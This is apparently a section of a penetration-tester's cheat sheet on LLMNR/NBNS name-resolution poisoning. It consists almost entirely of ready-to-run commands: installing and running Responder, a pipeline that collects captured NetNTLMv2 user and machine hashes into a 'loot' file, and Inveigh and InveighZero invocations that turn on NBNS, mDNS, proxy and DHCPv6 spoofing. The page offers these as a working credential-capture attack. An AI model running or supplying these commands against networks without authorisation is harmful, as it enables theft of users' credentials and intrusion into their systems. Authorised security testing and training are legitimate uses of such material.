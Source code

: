 

### LLMNR/NBNS Poisoning


#### Responder

* [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://markclayton.github.io/where-are-my-hashes-responder-observations.html](https://markclayton.github.io/where-are-my-hashes-responder-observations.html)

Install:

```
$ git clone https://github.com/lgandx/Responder ~/tools/Responder && cd ~/tools/Responder
```

Run:

```
$ sudo ./Responder.py -I eth0 -Av
$ sudo ./Responder.py -I eth0 -wfrd -P -v
```

Parse, sort and save:

```
 # Users
$ head -n 1 logs/*.txt | grep --text -v -e 'logs/' -e '\$' -e anonymous | sort -u -t: -k1,1 > net-ntlmv2.responder
$ sort -u -t: -k1,1 net-ntlmv2.responder ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.responder t
 # Machines
$ head -n 1 logs/*.txt | grep --text '\$' | sort -u -t: -k1,1
```


#### Inveigh

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y
```

##### InveighZero

* [https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
PS > .\InveighZero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
```

